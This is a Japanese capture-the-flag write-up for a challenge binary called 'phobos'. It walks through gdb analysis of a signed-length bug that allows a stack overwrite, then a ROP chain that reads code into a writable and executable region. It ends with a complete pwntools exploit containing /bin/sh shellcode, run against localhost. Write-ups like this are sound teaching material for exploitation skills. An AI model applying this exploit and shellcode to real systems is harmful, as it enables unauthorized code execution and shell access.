

# phobos writeup

## バイナリを調べる
> $ file ./phobos
./phobos: ELF 64-bit LSB  executable, x86-64, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.32, BuildID[sha1]=3c111d36955a5e96fc6a2237dc8799520c8edb3f, not stripped

64bitバイナリなのでIDAじゃだめっぽい。Pro買いたいね。  

> CANARY    : disabled  
FORTIFY   : disabled  
NX        : disabled  
PIE       : disabled  
RELRO     : disabled  

なんもかかってない。なんか行けそう。  

## プログラムの挙動
> $ ./phobos  
 \> What's your name?  
segfo%d  
Hi, segfo%d  
>  
 \> Please input the length of your message:  
100  
 \> Please enter your text:  
yeeeeee  
 \> Thanks!

ふむ・・・
よくわからないのでgdbで追ってみよう。
IDAは甘え（震え声）

## GDBで見てみる
### 1回目の入力
> 0x400714 <main+40>:	lea    rax,[rbp-0x50]  
0x400718 <main+44>:	mov    esi,0x40  
0x40071d <main+49>:	mov    rdi,rax  
=> 0x400720 <main+52>:	call   0x400686   <read_nbytes>  
0x400725 <main+57>:	cdqe
0x400727 <main+59>:	mov    QWORD PTR [rbp-0x8],rax  
0x40072b <main+63>:	lea    rax,[rbp-0x50]  

引数
> arg[0]: 0x7ffe52552930 --> 0x7f3ea8fe21c8 --> 0x0  
arg[1]: 0x40 ('@')  

入力値  
> segfo  

返却値  
> RAX: 0x6  

改行文字含む文字数らしい。  

### 1回目の出力
> 0x40072f <main+67>:	mov    rsi,rax  
0x400732 <main+70>:	mov    edi,0x4008ad  
0x400737 <main+75>:	mov    eax,0x0  
=> 0x40073c <main+80>:	call   0x400530 <printf@plt>  
0x400741 <main+85>:	mov    edi,0x4008b8  
0x400746 <main+90>:	call   0x400520 <puts@plt>  
0x40074b <main+95>:

引数
> arg[0]: 0x4008ad --> 0xa7325202c6948 ('Hi, %s\n')  
arg[1]: 0x7ffe52552930 --> 0xa6f66676573 ('segfo\n')  

0x7ffe52552930は入力バッファということで  
read_nbytes関数の引数はこんな感じ  

read_nbytes(バッファアドレス,バッファ長)
ちなみにここでのバッファオーバーフローはなさそう、次。

### 2回目の入力
> 0x40075e <main+114>:	mov    rsi,rax  
0x400761 <main+117>:	mov    edi,0x4008e4  
0x400766 <main+122>:	mov    eax,0x0  
=> 0x40076b <main+127>:	call   0x400580  <\_\_isoc99_scanf@plt>  
0x400770 <main+132>:	mov    rax,QWORD PTR [rbp-0x58]  
0x400774 <main+136>:	lea    rdx,[rax+0xf]  
0x400778 <main+140>:	mov    eax,0x10  
0x40077d <main+145>:	sub    rax,0x1  

引数
> arg[0]: 0x4008e4 --> 0x50203e00756c6c25 ('%llu')
arg[1]: 0x7ffe52552928 --> 0x7f3ea8fdf4c0 --> 0x7f3ea89f9000 --> 0x10102464c457f

scanfで符号なし数のみ読み込んでいるっぽい。  
-1とかやると0xffffffffffffffffみたいなのがバッファ(0x7ffe52552928)に入る。

256を入れてみたとき
> gdb-peda$ p/x \*(long int\*)0x7ffe52552928  
$4 = 0x100  

-1を入れてみたとき
> gdb-peda$ p/x \*(long int\*)0x7ffe52552928  
$4 = 0xffffffffffffffff  

こんな感じ。


### 3回目の入力
>    0x4007c8 <main+220>:	mov    rax,QWORD PTR [rbp-0x10]  
   0x4007cc <main+224>:	mov    rsi,rdx  
   0x4007cf <main+227>:	mov    rdi,rax  
=> 0x4007d2 <main+230>:	call   0x400686 <read_nbytes>  
   0x4007d7 <main+235>:	cdqe  
   0x4007d9 <main+237>:	mov    QWORD PTR [rbp-0x8],rax  
   0x4007dd <main+241>:	cmp    QWORD PTR [rbp-0x8],0x0  
   0x4007e2 <main+246>:	jne    0x4007eb <main+255>  

引数
> arg[0]: 0x7ffeb268c3b0 --> 0x0  
arg[1]: 0x100

つまり、3回目の入力は2回目の入力値分バッファを確保してそこに入力するらしい。
けどこのバッファのアドレスってスタックじゃね？

試しに、2回目の入力で「でっかい数字」を入れてみよう。
スタックだったらメモリ領域乗り越えてしてSEGVするはず。

とりあえず符号付きの場合に一番大きい数いれてみよう。
0x7FFFFFFFFFFFFFFFを10進に直して9223372036854775807を入れてみる

>\> What's your name?  
segfo  
Hi, segfo  
>  
> \> Please input the length of your message:
9223372036854775807

結果
> Invalid $SP address: 0x80007fffdb205030  
> Stopped reason: SIGBUS

SEGVじゃなかったけど、落ちた。  
入力された値でスタックを操作してるみたい。  
つまり、スタックの任意の場所に値を書き込める！ということ。  

## ここまでの整理と攻撃する方針を立てる
・1回目の入力と3回目の入力で使われているread_nbytes関数はバッファに入力値nバイト書き込む関数。  
・2回目はscanfで数値のみ入力している。  
・2番目の入力値で数値をとる。  
・3回目の入力に使うバッファは「rsp = rsp-2回目の入力値(int)」を先頭アドレスにする。  
・3番目の入力でrspの先頭からデータを入力させる。  

2回目の入力が小さすぎると、リターンアドレスを書き換えられないけど  
大きすぎると上に行き過ぎて下から出てくるから、スタックを書き換えて任意の場所にリターンさせて攻撃コードを送れそう。  
rop使えば行ける。

## 上に行き過ぎて下から出てくるとは
  

つまり、マイナスの値を入れるとこうなる。
sprintfのフォーマットは入力時の書式までは見ていないからね。  
ちなみに、マイナスの値を入れても
read_nbytesの何バイト入力するかは、「符号なし」なので、ここもスルー出来ちゃう。  
（内部でread関数を使っているので符号なしだとわかる）  

## ROPをする
コードを実行したいので、とりあえずropを実行する。  
とりあえず攻撃コードを書き込めて、なおかつ実行できそうなアドレスを調べる。

gdb-peda$ vmmap  
0x00400000 0x00401000 r-xp /phobos  
0x00600000 0x00601000 rwxp /phobos  
(後略)  


2行目の領域に書き込み・実行権限があるのでいけそう。  
4kb分の領域があればコード実行には十分。  
0x00600000-0x00601000 rwxp /phobos  
ここにread関数で読み込ませて、最終的に0x600000にジャンプ(return)する方針に決定。  

## ROPで呼び出す関数とガジェットのアドレスを調べる
x86-64はレジスタ経由で引数を渡すので  
スタックから取り出してレジスタに突っ込むガジェットを調べる。  
第一引数：rdi  
第二引数：rsi  
第三引数：rdx  
なので、スタックの先頭からこれら3種のレジスタに突っ込まれる感じのガジェットを見つける。  
たいていの場合rdxに突っ込むガジェットがなかったりするので  
その時はその時で考える。
極論、呼ぶのはread関数なので  
第三引数(rdi)は50以上の値になればいいんじゃないかとおもう  
50バイト分読み込めれば、シェルコード動かせそうだし。  
というわけで見つけたガジェットがこれ  
> rp-lin-x64 -r 3 -f phobos  
0x00400873: pop rdi ; ret  ;  (1 found)  
0x00400871: pop rsi ; pop r15 ; ret  ;  (1 found)  

予想通りrdxに対してのガジェットが見つからなかったけどまぁよし。  
puts関数読んで、rdxの値を適当な値にしましょ。  

順番的には、puts呼んでから、rdi,rsiを決定する方針で。  
puts関数：0x400520  
read関数：0x400540  

## exploit
```#!/usr/bin/python
from pwn import *

# 接続
r = remote('localhost','11111')

# 1回目の入力は何でもいい
r.write('hogehoge\n')
r.read()
sleep(0.1)

# 2回目の入力が大事。
# ここで上に行き過ぎると下から出てくる理論を使う。
r.write('-120\n')
r.read()
sleep(0.5)

# 攻撃コードの準備
# readを呼ぶためにガジェットをrp++とかobjdumpで調べる。
popRdi = 0x00400873
popRsi = 0x00400871
putsPlt = 0x400520
readPlt = 0x400540

puts = lambda string:p64(popRdi)+p64(string)+p64(putsPlt)
read = lambda handle,buf:p64(popRdi)+p64(handle)+p64(popRsi)+p64(buf)+p64(0xdeadbeef)+p64(readPlt)
ret = lambda addr:p64(addr)
payload = 'AAAAAAAAAAAAAAAAAAAAAAAA'+puts(0x400898)+read(0,0x00600000)
payload += ret(0x00600000)+'\n'
r.write(payload)
r.read()

# /bin/shを立ち上げるシェルコード
# 引用元：http://shell-storm.org/shellcode/files/shellcode-806.php
# 便利な世の中すなぁ。
shellcode = "\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7"
shellcode += "\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05"
r.write(shellcode)
r.interactive()
r.close()
```
